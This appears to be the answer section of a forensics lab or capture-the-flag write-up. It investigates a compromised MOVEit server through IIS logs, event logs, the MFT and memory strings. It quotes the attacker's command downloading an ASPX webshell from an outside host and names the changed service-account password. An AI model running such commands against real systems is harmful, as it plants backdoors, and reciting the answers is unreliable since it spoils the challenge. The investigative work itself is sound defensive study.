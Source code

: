   Ruby (IIS logs [User Agent Analysis](#user-agent-analysis))
4. When was the ASPX webshell uploaded by the attacker?

   12/07/2023 11:24:30 (MFT [move.aspx](#moveaspx))
5. The attacker uploaded an ASP webshell which didn’t work, what is its filesize in bytes?
   1362 (MFT [moveit.asp](#moveitasp))
6. N/A
7. Which tool did the attacker use to initially enumerate the vulnerable server?

   `nmap` (IIS logs [User Agent Analysis](#user-agent-analysis))
8. We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC).

   12/07/2023 11:09:27 (Event Logs [Password Change](#password-change))
9. Which protocol did the attacker utilize to remote into the compromised machine?

   RDP (Event Logs [Login Events - Type 10](#type-10))
10. Please confirm the date and time the attacker remotely accessed the compromised machine?

    12/07/2023 11:11:18 (Event Logs [Login Events - Type 10](typora://app/typemark/window.html#type-10))
11. What was the useragent that the attacker used to access the webshell?

    `Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0` (IIS logs <#user-agent-analysis>)
12. What is the inst ID of the attacker?

    1234 (SQL Dump [InstID](#instid), [Metasploit Code Analysis](#metasploit))
13. What command was run by the attacker to retrieve the webshell?

    `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx` (PS History [Data](#data), vmem strings [move.aspx](moveaspx-1))
14. What was the string within the title header of the webshell deployed by the TA?

    awen asp.net webshell (vmem strings [move.aspx](moveaspx-1))
15. What did the TA change the our moveitsvc account password to?

    5trongP4ssw0rd (vmem strings [Password Change](#password-change-1))